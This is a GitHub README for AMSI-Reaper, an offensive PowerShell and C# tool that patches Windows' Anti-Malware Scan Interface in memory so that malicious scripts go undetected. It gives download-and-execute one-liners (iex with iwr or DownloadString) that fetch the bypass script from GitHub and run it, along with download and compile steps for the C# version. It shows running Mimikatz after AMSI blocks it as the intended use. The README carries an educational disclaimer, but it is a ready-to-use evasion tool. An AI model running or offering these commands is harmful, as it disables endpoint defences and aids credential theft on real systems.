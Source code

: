 [![Author](https://img.shields.io/badge/Author-h0ru-darkred)](https://github.com/h0ru)
![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)
![Language](https://img.shields.io/badge/Lang-CSharp-green.svg)
[![Github Stars](https://img.shields.io/github/stars/h0ru/AMSI-Reaper)](https://github.com/h0ru/AMSI-Reaper) 
[![GitHub forks](https://img.shields.io/github/forks/h0ru/AMSI-Reaper)](https://github.comh0ru/AMSI-Reaper)

# AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

> [!WARNING]
> *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview
- The [`(AMSI)`](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is a built-in security feature in Windows that enables applications and services to integrate with antimalware products. It automatically protects against harmful scripts and code in programs like PowerShell.
- AMSI-Reaper is a tool developed in [`PowerShell`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [`C#`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface  in Windows.
- AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- Check out more on the [`YouTube Video`](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Usage
### ◽️ PowerShell Version
- __Download__
```powershell
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### ◽️ C# Version
- __Download__
```powershell
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```powershell
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images
### ❌ Invoke-Mimikatz is detected and blocked by AMSI.
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
### ✔️ AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time.
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
### ✔️ AMSI-Reaper in C# with native Windows features by compiling it with CSC.
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)

